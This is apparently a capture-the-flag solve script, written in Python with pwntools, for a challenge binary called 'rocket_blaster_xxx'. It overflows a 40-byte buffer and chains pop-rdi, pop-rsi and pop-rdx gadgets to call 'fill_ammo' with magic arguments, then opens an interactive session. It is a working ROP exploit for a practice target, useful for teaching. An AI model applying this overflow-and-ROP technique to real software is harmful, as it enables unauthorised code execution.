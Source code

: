 ```py title="solve.py"
continue
""".format(
    **locals()
)

# Set up pwntools for the correct architecture
exe = "./rocket_blaster_xxx"
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
rop = ROP(elf)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = "info"
# Load libc
libc = ELF("./glibc/libc.so.6")

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

import sys

io = start()

offset = 40

pop_rdi = 0x40159F
pop_rsi = 0x40159D
pop_rdx = 0x40159B
ret = 0x40101A

payload = flat(
    offset * b"A",
    pop_rdi,
    0xDEADBEEF,
    pop_rsi,
    0xDEADBABE,
    pop_rdx,
    0xDEAD1337,
    ret,
    elf.functions.fill_ammo,
)

log.info(sys.getsizeof(payload))

write("payload.txt", payload)

io.sendlineafter(b">> ", payload)

io.interactive()
```
